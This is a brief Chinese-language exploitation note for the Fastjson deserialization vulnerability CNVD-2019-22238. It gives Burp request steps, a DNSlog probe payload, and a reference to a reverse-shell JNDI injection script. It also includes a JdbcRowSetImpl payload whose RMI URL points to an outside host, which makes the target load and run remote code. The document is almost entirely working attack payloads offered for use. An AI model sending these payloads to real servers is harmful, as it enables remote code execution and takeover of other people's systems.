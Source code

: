 # 漏洞验证, bp 发包
fastjson-cnvd_2019_22238

```sh
# 1. 改POST
POST / HTTP/1.1
# 2. 改application/json
Content-Type: application/json

# 3. body里按下面填
{"x":{"@type":"java.net.Inet4Address","val":"2i9ehz.dnslog.cn"}}
```

使用 web_exp_reverse_shell_fastjson_jndi_JNDI-Injection-Exploit_fast.py


# payload2

```json
{
 "1": {
 "@type": "java.lang.Class", 
 "val": "com.sun.rowset.JdbcRowSetImpl"
 }, 
 "2": {
 "@type": "com.sun.rowset.JdbcRowSetImpl", 
 "dataSourceName": "rmi://192.168.1.13:1099/v4v9uh", 
 "autoCommit": true
 }
}
```
